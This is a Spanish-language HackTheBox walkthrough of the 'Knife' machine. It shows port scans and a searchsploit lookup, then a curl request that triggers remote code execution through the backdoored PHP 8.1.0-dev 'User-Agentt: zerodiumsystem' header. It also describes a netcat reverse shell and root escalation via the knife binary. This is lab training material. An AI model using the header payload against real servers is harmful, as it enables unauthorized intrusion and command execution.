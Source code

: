 ```yaml
---
title: "Knife - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad fácil, para su intrusión me aproveché de una versión vulnerable de PHP/8.1.0-dev, añadiéndole la cabecera "User-Agentt" seguido de "zerodiumsystem("comando")" se encontró que se puede ganar "RCE", para ello me entable una reverse Shell por netcat y gane acceso, para la escalada encontré que se podría ejecutar el binario de Knife como usuario root, busque en gtfobins y escale privilegios."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/131255441-c8d88f5b-6aba-4bd5-819d-7a185b762de2.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - smbclient
  - extractports
  - crackmapexec
  - Starting Point
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/131255439-08fd7d17-c594-451b-ba0d-ec561ca1dfa2.jpg">
</p>

Comencé con escaneo de 'Nmap' para detectar puertos abiertos.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sS --min-rate=5000 -n -vvv --open -Pn 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:07 EDT
Initiating SYN Stealth Scan at 10:07
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 10:07, 0.41s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.11s latency).
Scanned at 2021-08-29 10:07:20 EDT for 0s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
           Raw packets sent: 1012 (44.528KB) | Rcvd: 1012 (40.488KB)
```

Efectúe otro escaneo para detectar la versión de cada servicio abierto encontrado.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sC -sV -p22,80 10.10.10.242 -oN targeted                       
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:09 EDT
Nmap scan report for 10.10.10.242
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```

Vi que corría un servidor web, accedí a él y encontré lo siguiente.

![https://imgur.com/8D6YyB7.png](https://imgur.com/8D6YyB7.png)

Las secciones que habían no eran botones por lo que poco podía hacer, le hice un `whatweb` al servidor web para ver que estaba corriendo.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Encontré que corría `PHP`, eso me llamo la atención, envíe una petición por `GET` y al parecer `whatweb` lo reporta de la cabecera `X-Powered-By`.

![https://imgur.com/2otlnnT.png](https://imgur.com/2otlnnT.png)

Busque si había algún `exploit` de esa versión y encontré uno que te garantizaba ejecución de código arbitrario.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit PHP 8.1.0-dev
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Concrete5 CMS < 8.3.0 - Username / Comments Enumeration                                                                     | php/webapps/44194.py
cPanel < 11.25 - Cross-Site Request Forgery (Add User PHP Script)                                                           | php/webapps/17330.html
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                         | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                     | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                            | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                       | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                              | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                          | php/webapps/46459.py
FileRun < 2017.09.18 - SQL Injection                                                                                        | php/webapps/42922.py
Fozzcom Shopping < 7.94 / < 8.04 - Multiple Vulnerabilities                                                                 | php/webapps/15571.txt
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)                                                                  | php/remote/40434.rb
IceWarp Mail Server < 11.1.1 - Directory Traversal                                                                          | php/webapps/44587.txt
KACE System Management Appliance (SMA) < 9.0.270 - Multiple Vulnerabilities                                                 | php/webapps/46956.txt
Kaltura < 13.2.0 - Remote Code Execution                                                                                    | php/webapps/43028.py
Kaltura Community Edition < 11.1.0-2 - Multiple Vulnerabilities                                                             | php/webapps/39563.txt
Micro Focus Secure Messaging Gateway (SMG) < 471 - Remote Code Execution (Metasploit)                                       | php/webapps/45083.rb
NPDS < 08.06 - Multiple Input Validation Vulnerabilities                                                                    | php/webapps/32689.txt
OPNsense < 19.1.1 - Cross-Site Scripting                                                                                    | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                         | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                                                                                    | php/remote/25986.txt
REDCap < 9.1.2 - Cross-Site Scripting                                                                                       | php/webapps/47146.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                                       | php/webapps/45271.txt
Responsive Filemanger <= 9.11.0 - Arbitrary File Disclosure                                                                 | php/webapps/41272.txt
ShoreTel Connect ONSITE < 19.49.1500.0 - Multiple Vulnerabilities                                                           | php/webapps/46666.txt
Western Digital Arkeia < 10.0.10 - Remote Code Execution (Metasploit)                                                       | php/remote/28407.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                         | php/webapps/39553.txt
Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting                                                | php/webapps/46815.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Lo transferí a mí máquina con el parámetro `-m` de `searchsploit`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit -m php/webapps/49933.py                        
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
File Type: HTML document, ASCII text, with CRLF line terminators

Copied to: /home/kali/HTB/Knife/49933.py
```

Tras ver lo que hacía por detrás encontré que envía una petición añadiendo una cabecera nueva llamada `User-Agentt` que ejecuta la siguiente sentencia `zerodiumsystem("comando");`
y ganas `RCE`, lo hice de manera manual.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# curl -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('whoami');" 
james
<!DOCTYPE html>
<html lang="en" >

<head>

  <meta charset="UTF-8">
```

Al parecer si funciono, me ejecuto el comando que yo quería y me reporto el "output" en la primera línea del código fuente de la página, ahora solo faltaba ganar acceso al sistema, por ello me entable una `reverse Shell` por `netcat`, para ello use una de `mkfifo`.

![https://imgur.com/ipnNoz2.png](https://imgur.com/ipnNoz2.png)

Y gané acceso a la máquina.

![https://imgur.com/OABTbXS.png](https://imgur.com/OABTbXS.png)

Hice un tratamiento de la `TTY` y encontré que se podía ejecutar el binario `knife` con el usuario `root`.

![https://imgur.com/gwNgZIA.png](https://imgur.com/gwNgZIA.png)

Fui a `gtfobins` y encontré que se podía escalar ejecutando el binario `knife`.

![https://imgur.com/G7sdeOP.png](https://imgur.com/G7sdeOP.png)

Lo ejecute y gane acceso a la máquina como `root` y ya pude visualizar la "flag".

![30OhG9A](https://user-images.githubusercontent.com/69093629/131256003-84afcd54-e826-4192-aabc-af581f4601cb.jpg)


